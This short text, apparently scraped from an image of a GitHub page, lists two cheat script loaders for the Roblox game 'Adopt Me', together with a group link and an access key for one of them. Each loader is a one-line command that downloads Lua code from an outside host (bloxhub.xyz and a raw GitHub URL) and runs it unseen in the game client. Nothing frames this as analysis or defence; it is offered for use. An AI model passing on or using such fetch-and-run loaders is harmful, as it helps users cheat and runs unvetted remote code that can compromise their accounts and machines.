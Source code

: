 adopt me 1:
_G.SubToBloxiScripts = true 
loadstring(game:HttpGet("https://bloxhub.xyz/script/loader"))()

to use join group:
https://www.roblox.com/groups/5498200/Bloxis-fan-club#!/about and the key is BloxHub_KEY14_PLSDONATETOUKRAINERUSSIASTOP



adopt  me 2:

loadstring(game:HttpGet('https://raw.githubusercontent.com/1201for/V.G-Hub/main/V.Ghub'))()
